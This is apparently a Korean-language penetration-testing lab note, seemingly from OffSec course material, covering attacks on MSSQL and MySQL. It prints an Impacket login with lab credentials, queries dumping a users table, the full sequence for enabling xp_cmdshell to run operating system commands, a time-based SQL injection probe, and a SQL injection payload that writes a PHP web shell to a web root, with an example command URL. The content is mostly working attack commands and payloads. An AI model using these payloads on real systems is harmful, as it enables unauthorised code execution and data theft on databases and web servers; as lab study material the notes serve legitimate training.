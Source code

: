 # 🗂 MSSQL Client Connection

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ **Impacket**의 `mssqlclient.py`를 사용하여 MSSQL 서버에 접속.  
→ `-windows-auth` 옵션은 **Windows 인증**을 사용하여 로그인.

```sql
SELECT @@version;
```
→ MSSQL 서버 버전 확인

```sql
SELECT * FROM offsec.information_schema.tables;
```
→ 데이터베이스 `offsec`의 모든 테이블 목록 확인

```sql
SELECT * FROM offsec.dbo.users;
```
→ 데이터베이스 `offsec`의 `users` 테이블 내용 조회

---

# 💻 MSSQL Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ 서버 접속 후, **xp_cmdshell** 기능을 활성화하여 시스템 명령어 실행

```sql
-- 1️⃣ 고급 옵션 보기 허용
EXECUTE sp_configure 'show advanced options', 1;
```
> MSSQL의 `sp_configure`는 서버 설정 값을 변경하는 명령입니다.  
> `'show advanced options'` 값을 1로 설정하면, 기본적으로 숨겨져 있는 고급 설정 옵션(예: xp_cmdshell)을 볼 수 있게 됩니다.

```sql
-- 2️⃣ 설정 적용
RECONFIGURE;
```
> 변경한 설정을 즉시 적용합니다.  
> `sp_configure`로 값을 바꾸더라도 `RECONFIGURE`를 실행하지 않으면 실제 적용되지 않습니다.

```sql
-- 3️⃣ xp_cmdshell 기능 활성화
EXECUTE sp_configure 'xp_cmdshell', 1;
```
> `xp_cmdshell`은 SQL 쿼리에서 직접 OS 명령어를 실행하게 해주는 확장 저장 프로시저입니다.  
> 기본적으로 보안상 이유로 비활성화(0) 되어 있습니다.  
> 여기서 1로 설정하여 기능을 켭니다.

```sql
-- 4️⃣ 설정 적용
RECONFIGURE;
```
> 마찬가지로 변경한 `xp_cmdshell` 설정을 즉시 적용합니다.

```sql
-- 5️⃣ OS 명령어 실행
EXECUTE xp_cmdshell 'whoami';
```
> `xp_cmdshell`을 사용해 OS 명령어(`whoami`)를 실행합니다.  
> 결과로 현재 SQL 서버 프로세스가 실행 중인 **Windows 계정**이 출력됩니다.

---


# 🐬 MySQL Code Execution
```sql
' UNION SELECT sleep(5);-- -
```
→ URL ENCODED로 실행해보기

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
→ SQL 인젝션을 통해 PHP 웹셸 생성  
→ `INTO OUTFILE`을 사용하여 지정 경로(`/var/www/html/tmp/webshell.php`)에 파일 작성  
→ 생성된 파일에 접근 후, `cmd` 파라미터를 통해 명령어 실행 가능  
→ 예: `http://target/tmp/webshell.php?cmd=id`

---
